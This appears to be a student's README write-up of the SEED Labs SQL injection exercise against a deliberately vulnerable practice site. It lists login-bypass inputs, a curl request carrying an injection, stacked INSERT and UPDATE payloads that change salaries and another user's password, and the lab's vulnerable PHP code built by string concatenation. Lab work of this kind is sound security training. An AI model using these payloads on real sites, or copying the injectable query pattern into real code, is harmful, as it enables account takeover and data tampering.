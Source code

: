 # SQL_INJECTION
###Task 1: 	Log in MYSQL:

	
  
    mysql -u root -pseedubuntu;
    
		mysql> use Users;
    
		mysql> show tables;
	
//Use such a SQL query:
		
    select * from credential where Name='Alice';



![alt text](https://github.com/RubiaQayoum/SQL_INJECTION/blob/main/task%201.png)
 
 
 ###Task 2: 
 -->Task 2.1
    
    .USERNAME: "Admin' #"
	  
    .PASSWORD: "xyz" (here is password is optional)


//We will result in SQL Query

		
    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password 
    FROM credential WHERE name='Admin' #' && password='xyz'
 
 --> Task 2.2: Write Code on Terminator in Seed Lab:
	 
    
    curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	
  
    
    	2- Copy the HTML code.
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
	4- Run this location on browser
    
    
![alt text](https://github.com/RubiaQayoum/SQL_INJECTION/blob/main/task%202.1.png)



--> Task 2.3: Use the Inject statement to append a row to current database:
	

	INSERT INTO credential (name,eid) VALUES('Waleed', '17422');

	After row inserted, go to browser and input as:

	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #"

	.PASSWORD: "" (blank field)
	



![alt text](https://github.com/RubiaQayoum/SQL_INJECTION/blob/main/task%202.3.png)



###Task 3
use link

http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php


--> Task 3.1

	1- Login as Username= 'Alice' && Password = xyz, 
	2- Then edit the link to browser 
	http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	
	3- Update Phone Number as ', Salary=1000000 and save.

--> Task 3.2

	1- Login as Username= 'Boby' #' and then open edit profile
	
	2- Update Phone Number: ',Salary=0 and remaining unchanges


![alt text](https://github.com/RubiaQayoum/SQL_INJECTION/blob/main/task%203.2.png)



//Login as Alice
		
		Assume login as Boby and keep Alice login too. Open Alice profile edit


Update Phone Number: ', Salary=1 where name='Boby' #


--> Task 3.3: 	We're login as Boby but change password of Alice

	$conn = getDB();
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET 	nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit();
	
	
	
	
